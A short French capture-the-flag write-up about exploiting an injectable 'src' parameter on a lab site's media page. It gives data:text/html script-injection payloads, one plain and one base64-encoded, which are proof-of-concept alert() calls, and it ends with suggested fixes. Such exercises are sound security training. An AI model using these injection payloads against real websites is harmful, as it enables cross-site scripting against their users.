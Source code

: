 
/index.php?page=media&src=nsa

le parametre src est injectable:

si l'image existe, il va chercher l'image dans: `http://172.16.42.21/images/[src].jpg`

```
<object data="http://172.16.42.21/images/nsa_prism.jpg"></object>
```

si il n'existe pas il va la mettre dans une balise object.

`index.php?page=media&src=lol`

```
<object data="lol"></object>
```
Nous pouvons donc injecter du code js.

`index.php?page=media&src=data:text/html,<script>alert(5)</script>`

fonctionne mais ne donne pas de flag, essayons en base64

`index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg1KTwvc2NyaXB0Pg==`


### Amelioration

Ne pas parse du base64 directement depuis le query parameters.
Verifier la source et autoriser uniquement les images qui proviennes du site.
